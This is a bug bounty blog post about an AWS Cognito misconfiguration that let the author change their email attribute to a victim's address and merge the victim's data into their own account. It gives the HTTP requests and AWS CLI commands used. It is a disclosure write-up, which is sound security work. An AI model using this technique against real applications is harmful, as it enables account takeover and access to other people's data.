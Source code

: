```yaml
---
layout: post
title:  "AWS Cognito Misconfiguration"
date:   2022-11-04
categories: bugbounty
---
```


Hello everyone, hope you are all good and having some fun. After a long time I came up with an other interesting blog where I discuss about an interesting AWS Cognito misconfiguration allowing attacker to merge victim's account with the attacker account on behalf of the victim. This was found on one of the engagements at Synack Red Team.

For those who doesn't know about AWS Cognito. 

### Amazon Cognito

Amazon Cognito provides authentication, authorization, and user management for customer's web and mobile applications. Users can sign in directly with a user name and password, or through a third party such as Facebook, Amazon, Google, Apple, or enterprise identity providers via SAML 2.0 and OpenID Connect. The two main components of Amazon Cognito are user pools and identity pools. User pools are user directories that provide sign-up and sign-in options for application users. Identity pools enable developers to grant users access to other AWS services

**References:**
* (https://aws.amazon.com/cognito/)
* (https://www.techtarget.com/searchaws/definition/Amazon-Cognito)

<p align="center">
<img src="https://docs.aws.amazon.com/images/cognito/latest/developerguide/images/cognito-user-pool-auth-flow-srp.png">
</p>

The Target application was using AWS Cognito for authentication purpose. Upon Login to the application certain requests were being made to AWS Cognito to validate the user. Once the validation check was passed you will be allowed to login to the application

The flow will be as follows

User login -> AWS Cognito (Authentication) -> AWS Cognito (Get User Attributes) -> Application Login

The request for `Get User Attribute` will have a header named `X-Amz-Target: AWSCognitoIdentityProviderService.GetUser` and the response for the request will be as follows

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.GetUser
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{"AccessToken":"<Token>"}
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "attacker@attacker.com"
        }
    ]
}
``` 

The above response gives us the list of `user attributes` available. Among those three attributes the `email` attribute is interesting. If we can able to change our email address to victim's email address then we were able to login to the victim account with our attacker's password right? So with this mindset I started the exploitation process by making a request to `Update UserAttributes`. The Update User attribute request can be done by using `AWS CLI` or using a `HTTP Request`. Both examples have been given below

**AWS CLI**
```
aws cognito-idp update-user-attributes --region us-west-2 --access-token <Token> --user-attributes 'Name=email,Value=**victim@victim.com**'
```

Run the above command to update the email address to victim's email address. After running the command the update operation was successfull. If you get an error like this `An error occured (AliasExistsException) when calling the UpdateUserAttributes operation: An account with the given email address already exists` it means the application was not vulnerable. 
 
Upon making a request to retrieve the updated `user attributes` using aws-cli with the below given command the response was as follows.

**AWS CLI**
```
aws cognito-idp get-user --region us-west-2 --access-token <Token>
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
``` 

Now as per the mindset discussed above I have tried to login to the application with the below given credentials.

```
Email: victim@victim.com
Password: attacker'spassword
```

The login was failed. From the above given response i noticed the `username` still remains the same as `attacker@attacker.com` only the email attribute has been changed. So I tried to login to the application with the attacker's credentials such as

```
Email: attacker@attacker.com
Password: attacker'spassword
```

Login was successfull and all the data belonging to `victim@victim.com` was successfully merged over to `attacker's account`. Changes being done by `attacker` was being reflected to `victim's` account. Victim can still login to the application using his credentials as well.


